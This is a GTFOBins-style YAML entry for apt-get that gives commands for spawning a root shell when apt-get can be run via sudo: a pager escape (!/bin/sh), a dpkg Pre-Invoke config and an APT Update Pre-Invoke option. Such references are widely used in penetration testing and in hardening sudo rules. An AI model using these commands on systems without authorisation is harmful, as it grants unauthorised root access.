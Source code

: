 functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        apt-get changelog apt
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo apt-get changelog apt
        !/bin/sh
    - description: For this to work the target package (e.g., `sl`) must not be installed.
      code: |
        TF=$(mktemp)
        echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
        sudo apt-get install -c $TF sl
    - description: When the shell exits the `update` command is actually executed.
      code: sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
---
